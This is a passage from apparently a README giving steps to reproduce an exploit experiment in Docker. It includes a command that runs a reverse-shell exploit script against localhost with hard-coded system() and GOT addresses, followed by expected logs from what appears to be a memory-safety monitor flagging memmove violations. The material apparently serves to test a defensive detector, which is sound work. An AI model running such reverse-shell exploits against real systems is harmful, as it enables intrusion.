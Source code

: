 ### Expected Output

```txt
...
monitor_inotify.c:156: info: Added watch to /opt [1]
...
(wait until no new logs are printed)
```

### 5. Run exploit (terminal C)
```bash
(inside docker) python3 tpoison-nopie-x64_reverse-shell.py 127.0.0.1 --system_addr 0x7ffff63a52f0 --got_addr 0x45e150
```

### Expected Output

#### terminal A
```txt
...
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b5310 dst: 2f0b5300 src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b5311 dst: 2f0b5301 src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b5312 dst: 2f0b5302 src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b5313 dst: 2f0b5303 src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b5314 dst: 2f0b5304 src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b5315 dst: 2f0b5305 src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b5316 dst: 2f0b5306 src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b5317 dst: 2f0b5307 src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b5318 dst: 2f0b5308 src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b5319 dst: 2f0b5309 src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b531a dst: 2f0b530a src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b531b dst: 2f0b530b src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b531c dst: 2f0b530c src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b531d dst: 2f0b530d src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b531e dst: 2f0b530e src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b531f dst: 2f0b530f src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b5320 dst: 2f0b5310 src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b5321 dst: 2f0b5311 src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b5322 dst: 2f0b5312 src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b5323 dst: 2f0b5313 src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b5324 dst: 2f0b5314 src_vo: 17c0 dst_co: 0
memmove violation: 2f0b52e1 2f0b52f1 0x40 actual addr: src: 2f0b5325 dst: 2f0b5315 src_vo: 17c0 dst_co: 0
```

[+]: target: 127.0.0.1:8200